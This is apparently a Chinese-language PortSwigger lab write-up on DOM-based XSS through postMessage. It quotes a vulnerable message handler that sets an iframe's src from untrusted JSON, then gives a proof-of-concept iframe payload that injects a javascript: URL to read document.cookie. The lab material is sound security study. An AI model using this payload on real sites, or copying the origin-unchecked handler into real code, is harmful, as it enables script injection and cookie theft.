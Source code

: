 

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/基于DOM的漏洞/images/A6FA99684776467B8D8D66D89C9F6F58clipboard.png)



```javascript
<script>
                        window.addEventListener('message', function(e) {
                            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                            document.body.appendChild(iframe);
                            try {
                                d = JSON.parse(e.data);
                            } catch(e) {
                                return;
                            }
                            switch(d.type) {
                                case "page-load":
                                    ACMEplayer.element.scrollIntoView();
                                    break;
                                case "load-channel":
                                    ACMEplayer.element.src = d.url;
                                    break;
                                case "player-height-changed":
                                    ACMEplayer.element.style.width = d.width + "px";
                                    ACMEplayer.element.style.height = d.height + "px";
                                    break;
                            }
                        }, false);
</script>
```



js脚本从消息中接收json数据，并将数据赋值给d。

当d.type=load-channel。src=d.url

此时src=d.url可能造成xss漏洞



poc:

```javascript
<iframe src=https://ac351ff41f350e7180a71db5005400d8.web-security-academy.net/ 
// \斜线用来转义
onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\"
:\"javascript:alert(document.cookie)\"}","*")'>
```

